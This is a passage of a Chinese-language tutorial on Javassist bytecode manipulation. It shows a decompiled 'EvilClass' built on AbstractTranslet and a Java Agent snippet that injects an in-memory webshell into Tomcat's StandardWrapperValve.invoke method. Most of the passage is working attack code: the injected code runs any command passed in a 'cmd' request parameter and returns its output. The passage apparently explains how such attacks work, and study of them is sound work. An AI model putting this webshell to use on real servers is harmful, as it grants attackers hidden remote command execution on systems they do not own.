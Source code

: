 > 注：默认 ClassPool 的类搜索路径，通常包括平台库、扩展库以及由 -classpath 选项或 CLASSPATH 环境变量指定的搜索路径。

反编译出来的 Java 代码：

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class EvilClass extends AbstractTranslet
{
    static {
        System.out.println("Hello Javassist");
    }

    public EvilClass() {
        super();
    }
}
```

通常使用 Java Agent 在向 tomcat 注入内存马时，会获取 org.apache.catalina.core.StandardWrapperValve 类，并向 invoke 方法中添加恶意代码。如下所示：

```java
// transform ...
ClassPool pool = ClassPool.getDefault();
if (classBeingRedefined != null) {
    ClassClassPath classPath = new ClassClassPath(classBeingRedefined);  // get current class's classpath
    pool.insertClassPath(classPath);  // add the classpath to classpool
}
CtClass clazz = pool.get("org.apache.catalina.core.StandardWrapperValve");  // get class
CtMethod method = clazz.getDeclaredMethod("invoke");
method.insertBefore("""
        javax.servlet.ServletRequest req = request;
        javax.servlet.ServletResponse res = response;
        String cmd = req.getParameter("cmd");
        if (cmd != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream(), System.getProperty("sun.jnu.encoding")));
            java.util.StringJoiner sj = new java.util.StringJoiner("\\n");
            String line = null;
            while ((line = bufferedReader.readLine()) != null) {
                sj.add(line);
            }
            bufferedReader.close();
            res.getOutputStream().write(sj.toString().getBytes());
            res.getOutputStream().flush();
            res.getOutputStream().close();
        }""");
// ...
clazz.detach();
```
